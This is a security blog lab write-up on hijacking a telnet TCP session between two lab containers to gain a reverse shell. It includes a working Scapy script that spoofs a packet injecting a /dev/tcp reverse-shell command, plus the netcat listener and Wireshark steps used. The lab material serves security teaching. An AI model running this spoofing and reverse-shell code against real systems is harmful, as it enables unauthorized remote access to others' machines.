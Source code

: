+++
title = "TCP Attack Lab 3 - Obtaining a reverse shell"
date = "2023-05-01"
description = "Exploiting a TCP connection to obtain a reverse shell."

tags = ["security","writeup",]
+++


We hijack a TCP connection to give us a reverse shell.

In the second part of this series, we conducted a TCP hijack attack on a `telnet` connection between two users on the same LAN as a malicious actor.

In the third and final installment, we will go a step further to execute not an arbitrary command, but a reverse shell, a powerful technique that is commonly used in system exploits.


# Setup

The set up can be found in the [overview post](/blog/posts/tcp-attack-lab/0-overview).

 
# Hijacking a `telnet` Connection to Obtain a Reverse Shell

Following these steps will hijack a TCP connection between User 1 as the client and User 2 as the server. We will have the server give us a shell in a technique known as a reverse shell exploit.

First, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

Then, I use `telnet` to connect from User 1 to User 2.

!["wireshark initial"](/blog/images/tcp-reverse/wireshark-init.png)

Select the bridge interface.

---

Logging in to the `telnet` server (Remember: User 2) from the client generates network traffic that we will use to construct the hijack packet. 

!["telnet"](/blog/images/tcp-reverse/telnet.png)

The telnet connection between User 1 and User 2.

---

The last TCP packet sent from User 1 to User 2 will inform the source port, sequence, and acknowledgement numbers used in the hijack packet we will spoof from the attacker to the server.

!["wireshark data"](/blog/images/tcp-reverse/wireshark-data.png)

Using Wireshark to construct our packet.

---

# Using `netcat` to establish a TCP server

In order to see the output of the command, we will set up a TCP server using `netcat`. 

!["netcat initial"](/blog/images/tcp-reverse/netcat-init.png)

Using netcat to establish a TCP server to display exploit output.

---


# Running the exploit

The following code will send our reverse shell hijack packet:

```python
import argparse
from scapy.all import *

def spoof_hijack_packet(src_port, seq_num, ack_num):
	user1_ip = "10.9.0.6"
	user2_ip = "10.9.0.7"

	user1_port = src_port
	user2_port = 23

	ip = IP(src=user1_ip, dst=user2_ip)
	tcp = TCP(sport=user1_port, dport=user2_port, flags="A", seq=seq_num, ack=ack_num)
	data = "\r /bin/bash -i > /dev/tcp/10.9.0.1/9090 2>&1 0<&1 \r"

	pkt = ip/tcp/data

	print("SENDING REVERSE SHELL PACKET........")
	send(pkt)

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
	parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)
	parser.add_argument("-a", "--ack", type=int, help="last acknowledgement number", required=True)

	args = parser.parse_args()

	spoof_hijack_packet(args.src_port, args.seq, args.ack)
```

For convenience, I designed the program to take the source port number, sequence number, and acknowledgement numbers as arguments. I invoke it as follows with the data gathered from Wireshark.

!["attack"](/blog/images/tcp-reverse/python-attack.png)

Using netcat to establish a TCP server to display exploit output.

---

The `netcat` TCP server we established on port 9090 has given us a shell into User 2's machine. 

!["netcat after"](/blog/images/tcp-reverse/netcat-after.png)

A reverse shell has been granted.

---

Using this shell, I created a file called foo.txt in /home/seed. We can verify that the file was created. 

!["server"](/blog/images/tcp-reverse/server.png)

Files on the telnet server, User 2.

---

If you were to go back to the `telnet` connection, we see that the connection no longer takes input. This is because the machines have detected the funny business from our spoofed packet.


# That's it!

In this series we explored TCP RST and hijacking attacks and extended the hijacking attack to obtain a reverse shell.


### _Updated: May 1, 2023_
